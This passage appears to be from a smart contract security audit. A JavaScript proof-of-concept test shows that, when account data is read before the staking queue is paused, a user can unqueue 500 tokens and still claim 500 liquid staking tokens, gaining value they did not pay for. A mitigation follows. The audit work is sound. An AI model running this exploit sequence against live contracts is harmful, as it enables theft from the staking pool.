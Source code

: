 ```javascript
    assert.equal(fromEther(await sq.totalQueued()), 1000)

    // max deposit has increased to 1500
    await strategy.setMaxDeposits(toEther(1500))

    // user sees that his queued tokens 500 can be deposited and call depositQueuedTokens
    // this will deposit the 500 ether in the queue
    await sq.connect(signers[1]).depositQueuedTokens()

    // Correct off-chain mechanism: pauseForUpdate -> getAccountData -> updateDistribution
    // Let us see what happens if getAccountData is called before pauseForUpdate

    // await sq.pauseForUpdate()

    // check account data
    var a_data = await sq.getAccountData()
    assert.equal(ethers.utils.formatEther(a_data[2][1]), "500.0")
    assert.equal(ethers.utils.formatEther(a_data[2][2]), "500.0")

    // user calls unqueueTokens to get his 500 ether back
    // this is possible because the queue contract is not paused
    await sq.connect(signers[1]).unqueueTokens(0, 0, [], toEther(500))

    // pauseForUpdate is called at a wrong order
    await sq.pauseForUpdate()

    // at this point user has 1000 ether staked and 9000 ether in his wallet
    assert.equal(fromEther(await token.balanceOf(accounts[1])), 9000)
    assert.equal(fromEther(await stakingPool.balanceOf(accounts[1])), 1000)

    // now updateDistribution is called with the wrong data
    let data = [
      [ethers.constants.AddressZero, toEther(0), toEther(0)],
      [accounts[1], toEther(500), toEther(500)],
    ]
    let tree = StandardMerkleTree.of(data, ['address', 'uint256', 'uint256'])

    await sq.updateDistribution(
      tree.root,
      ethers.utils.formatBytes32String('ipfs'),
      toEther(500),
      toEther(500)
    )

    // at this point user claims his LSD tokens
    await sq.connect(signers[1]).claimLSDTokens(toEther(500), toEther(500), tree.getProof(1))

    // at this point user has 1500 ether staked and 9000 ether in his wallet
    assert.equal(fromEther(await token.balanceOf(accounts[1])), 9000)
    assert.equal(fromEther(await stakingPool.balanceOf(accounts[1])), 1500)
  })
```
**Recommended Mitigation:** Consider to force pause the contract at the end of the function `_depositQueuedTokens`.
